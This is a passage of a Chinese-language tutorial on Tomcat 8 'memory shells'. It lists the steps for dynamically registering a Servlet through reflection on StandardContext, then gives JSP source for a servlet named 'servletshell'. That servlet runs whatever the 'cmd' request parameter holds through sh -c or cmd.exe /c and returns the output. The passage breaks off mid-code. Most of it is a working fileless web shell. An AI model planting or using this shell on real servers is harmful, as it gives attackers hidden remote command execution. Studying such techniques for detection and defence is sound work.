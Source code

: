 - 1、首先通过反射，从request中获取Tomcat中控制Web应用的Context（StandardContext对象），上文中有提到获取StandardContext获取的方式，这里因为是jsp来实现的，所以可以直接拿到request，所以就利用上文提到的第一种方法，通过反射即可获取到Tomcat下的StrandardContext对象，下面也是同理。
- 2、注册一个Servlet对象并重写其Service方法，在其中实现命令执行并通过response返回
- 3、创建Wrapper对象并利用各个船舰的Servlet来初始化
- 4、为Wrapper添加路由映射

```jsp
<%-- Tomcat8 动态注册Servlet，再起service()方法中实现内存马逻辑--%>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%
    final String name = "servletshell";
    // 获取上下文
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
	//注册Servlet对象 并重写service方法
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[] {"sh", "-c", cmd} : new String[] {"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner( in ).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

```